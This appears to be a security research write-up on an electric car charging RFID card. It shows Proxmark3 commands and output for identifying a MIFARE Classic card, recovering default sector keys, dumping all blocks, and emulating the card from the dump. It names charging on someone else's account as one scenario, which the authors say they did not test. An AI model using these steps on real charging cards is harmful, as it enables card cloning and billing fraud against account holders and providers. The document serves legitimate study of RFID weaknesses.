

# RFID Charging card electric car


This page is still undercontruction



[More information about RFID on the dedicated "Technology" page.](../technology-1/researched-technologies/untitled.md)


## Research: RFID Charging Card

#### What type of card are we facing?

To start off we will be checking the type of card. This will be done using the Proxmark 3 running on the Iceman repository. The following command will pull some basic information from the card. From there we will be able to evaluate the options.

```text
[usb] pm3 --> hf search
[=] Checking for known tags...
[|] Searching for ISO14443-A tag...
[+]  UID : XX XX XX XX XX XX XX
[+] ATQA : 00 44
[+]  SAK : 08 [2]
[+] TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1 | 1k Ev1
[+] MANUFACTURER : NXP Semiconductors Germany
[=] proprietary non iso14443-4 card found, RATS not supported
[+] Prng detection: HARD

[+] Valid ISO14443-A tag found
```

As you can see we've got a NXP MIFARE CLASSIC 1K card. Yet there's no card known to have the same ATQ and SAK values and we're pretty sure it's not a MIFARE CLASSIC 1k. The UID also suggests this isn't a card with 4 bytes. The information shown below is publicly available from nfc-tools.org.



While it's unclear what specific kind of card we've got on our hands it might still be possible to retrieve some data from it. Let's assume it's a Classic 1k card. 

#### Retrieving data

The data on the card is behind some sort of encryption. Most of the time these cards have default keys which uncovers the data. The following command will try default keys and dump the found keys to a binary file to use later on.

```text
[usb] pm3 --> hf mf fchk 1 d
[+] No key specified, trying default keys
[ 0] xxxxxxxxxxxx (Data has been hidden)
[ 1] xxxxxxxxxxxx
[ 2] xxxxxxxxxxxx
[ 3] xxxxxxxxxxxx
[ 4] xxxxxxxxxxxx
[ 5] xxxxxxxxxxxx
[ 6] xxxxxxxxxxxx
[ 7] xxxxxxxxxxxx
[ 8] xxxxxxxxxxxx
[ 9] xxxxxxxxxxxx
[10] xxxxxxxxxxxx
[11] xxxxxxxxxxxx
[12] xxxxxxxxxxxx
[13] xxxxxxxxxxxx
[14] xxxxxxxxxxxx
[15] xxxxxxxxxxxx
[16] xxxxxxxxxxxx
[17] xxxxxxxxxxxx
[18] xxxxxxxxxxxx
[19] xxxxxxxxxxxx
[20] xxxxxxxxxxxx
[21] xxxxxxxxxxxx
[22] xxxxxxxxxxxx
[+] Running strategy 1

[+] Chunk: 0.4s | found 32/32 keys (23)

[+] Time in checkkeys (fast):  0.4s


[=] found keys:
|---|----------------|---|----------------|---|
|sec| key A          |res| key B          |res|
|---|----------------|---|----------------|---|
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|---|----------------|---|----------------|---|
[=] ( 0 :Failed / 1 :Success)
[+] Generating binary key file
[+] Found keys have been dumped to hf-mf-XXXXXXXXXXXXXX-key-10.bin --> 0xffffffffffff has been inserted for unknown keys.
```

Succes! This means we're able to succesfully access the data on the card. To dump the actual data \(not just the keys\) into a file we should use the previously retrieved keys to access the data and write the data onto a .eml file.

```text
[usb] pm3 --> hf mf dump
[=] Reading sector access bits...
................
[+] Finished reading sector access bits
[=] Dumping all blocks from card...
[+] successfully read block  0 of sector  0.
[+] successfully read block  1 of sector  0.
[+] successfully read block  2 of sector  0.
[+] successfully read block  3 of sector  0.
[+] successfully read block  0 of sector  1.
...

...
[+] successfully read block  3 of sector 15.
[+] time: 17 seconds


[+] Succeeded in dumping all blocks

[+] saved 1024 bytes to binary file hf-mf-XXXXXXXXXXXXXX-data-4.bin
[+] saved 64 blocks to text file hf-mf-XXXXXXXXXXXXXX-data-4.eml
[+] saved to json file hf-mf-XXXXXXXXXXXXXX-data-4.json
```

### Exploiting the data

There's serveral ways to use the data retrieved above. Possible scenario's could be:

* Altering data to charge on someone else's account
* Cloning the exact card from the data onto a blank pass
* Simulating the card using the proxmark3

#### Altering data

Altering data without the consent of the service provider would be unethical thus we've not tested or looked into any of the possible attack scenario's using altered data.

#### Cloning

We've tried to clone the card onto a blank pass. Unfortunately we overlooked the part where this is a card with 7 bytes of data, this killed our blank pass and left us without resources to further look into cloning. It could be very well be possible if the right blank card is used.

#### Simulating using Proxmark3

The Proxmark3 has an option to simulate the earlier retrieved data. The proxmark could function as the charging pass. To accomplish this follow my steps below.

First we will be loading the data from the eml file into memory.

```text
[usb] pm3 --> hf mf eload hf-mf-XXXXXXXXXXXXXX-data-4.eml
[+] loaded 1024 bytes from text file hf-mf-XXXXXXXXXXXXXX-data-4.eml
[=] Copying to emulator memory
................................................................

[+] Loaded 64 blocks from file: hf-mf-XXXXXXXXXXXXXX-data-4.eml
```

After which we just call the following command and we're good to go.

```text
[usb] pm3 --> hf mf sim
[=] Mifare   |  UID  N/A
[=] Options [ numreads: 0, flags: 16 (0x10) ]
#db# 7B UID: XX XX XX XX XX XX XX
#db# ATQA  : 00 44
#db# SAK   : 88
```


We have not tested the simulated card in a real environment.



